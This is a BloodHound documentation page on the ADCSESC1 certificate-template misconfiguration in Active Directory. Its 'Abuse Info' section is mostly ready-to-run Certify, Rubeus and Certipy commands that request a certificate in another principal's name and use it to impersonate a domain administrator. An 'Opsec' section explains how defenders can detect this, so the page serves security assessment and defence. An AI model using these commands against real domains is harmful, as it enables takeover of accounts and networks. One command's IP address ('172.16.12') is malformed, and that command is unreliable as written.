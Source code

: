 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```cmd
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC1 --upn ForestRootDA --sid S-1-5-21-2697957641-2271029196-387917394-500
```

The issued certificate (PFX) is printed to the console in base64 form. Copy the full base64 blob (including BEGIN/END lines) for the next step.

Step 2: With Rubeus, use the base64-encoded certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```cmd
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```cmd
klist
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Certipy)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser
